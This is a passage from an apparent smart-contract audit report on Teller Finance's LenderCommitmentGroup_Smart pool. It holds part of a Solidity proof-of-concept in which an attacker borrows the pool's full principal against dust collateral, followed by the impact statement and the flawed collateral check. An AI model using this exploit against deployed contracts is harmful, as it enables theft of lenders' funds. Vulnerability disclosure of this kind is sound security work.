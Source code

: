 ```solidity

        // add principal to lender to get shares
        DAI.approve(address(lender), principalAmount);
        lender.addPrincipalToCommitmentGroup(principalAmount, attacker);

        // approve the forwarder
        tellerV2.approveMarketForwarder(marketId, address(smartCommitmentForwarder));

        // borrow the principal
        uint256 collateralAmount = 4;
        deal(address(WETH), attacker, collateralAmount);
        WETH.approve(address(collateralManager), collateralAmount);
        smartCommitmentForwarder.acceptCommitmentWithRecipient(
            address(lender),
            principalAmount,
            collateralAmount,
            0,
            address(WETH),
            attacker,
            0,
            2 days
        );

        vm.stopPrank();
    }
}
```

## Impact

Drained `LenderCommitmentGroup_Smart` as borrowers may borrow all the `principal` with a dust amount of collateral, disincentivizing liquidations.

## Code Snippet

[LenderCommitmentGroup_Smart::acceptFundsForAcceptBid()](https://github.com/sherlock-audit/2024-04-teller-finance/blob/main/teller-protocol-v2-audit-2024/packages/contracts/contracts/LenderCommitmentForwarder/extensions/LenderCommitmentGroup/LenderCommitmentGroup_Smart.sol#L367-L371)
```solidity
require(
    (_collateralAmount * STANDARD_EXPANSION_FACTOR) >=
        requiredCollateral,
    "Insufficient Borrower Collateral"
);
```

## Tool used

Manual Review

Vscode
